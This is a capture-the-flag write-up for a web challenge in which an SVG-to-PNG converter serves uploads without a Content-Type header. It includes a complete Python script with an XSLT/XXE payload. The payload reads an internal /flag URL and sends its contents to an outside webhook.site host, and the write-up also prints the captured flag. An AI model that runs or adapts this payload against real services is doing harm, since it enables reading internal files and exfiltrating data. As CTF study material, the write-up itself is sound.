 
## Convert SVG to PNG
![image](https://github.com/user-attachments/assets/a1d87668-8ee3-4491-b38f-181df52a2f7e)

Category: Web  

## Challenge
Website allows us to upload SVG and convert to PNG.

Found two versions of convertSVG function:
- convertSvgV1 → Vulnerable to XSS and file read (but impossible to trigger)  
- convertSvgV2 → No XSS possible because of `page.setJavaScriptEnabled(false)`

Discovered that the uploaded file is served using `res.end()` without Content-Type header.

This allows us to upload XSLT XML and perform XXE to read internal `/flag`.

Reference:  
https://blog.ankursundara.com/dicectf23-writeups/#impossible-xss  
https://github.com/neocotic/convert-svg/issues/88  

## Solution
Used XSLT payload to read `/flag` and send to webhook.

Payload:
```
import requests
import base64
from urllib.parse import urlencode

# Define the XSLT payload
xmls = """<?xml version="1.0"?>
<!DOCTYPE a [
 <!ENTITY xxe SYSTEM "http://127.0.0.1:8000/flag" >]>
<xsl:stylesheet xmlns:xsl="http://www.w3.org/1999/XSL/Transform" version="1.0">
  <xsl:template match="/asdf">
    <HTML>
      <HEAD>
        <TITLE></TITLE>
      </HEAD>
      <BODY>
        <img>
          <xsl:attribute name="src">
            https://webhook.site/9e?f=&xxe;
          </xsl:attribute>
        </img>
      </BODY>
    </HTML>
  </xsl:template>
</xsl:stylesheet>"""

# Encode the XSLT as base64
xmls_base64 = base64.b64encode(xmls.encode()).decode()

# Define the main XML payload
xml = f"""<?xml version="1.0"?>
<?xml-stylesheet type="text/xsl" href="data:text/plain;base64,{xmls_base64}"?>
<asdf></asdf>"""

base64_encoded_xml = base64.b64encode(xml.encode()).decode()

# URL encode the XML payload
encoded_xml = urlencode({'svg': base64_encoded_xml, 'test': '0'})



# Define the target URL
url = "http://localhost:8000/convert"

# Define the headers
headers = {
    "Content-Type": "application/x-www-form-urlencoded"
}

# Send the POST request
response = requests.post(url, headers=headers, data=encoded_xml)

# Print the response for debugging
print(f"Status Code: {response.status_code}")
print(f"Response: {response.text}")
```
Sent to `/convert` endpoint.

Triggered bot to visit uploaded XML file.

Got flag in webhook.

![image](https://github.com/user-attachments/assets/de21b3ee-8fad-44ad-a694-a0de3a58f8a7)

```
ACS{f2e394eabe06f5a4193c5ceab4beaeb4}
```
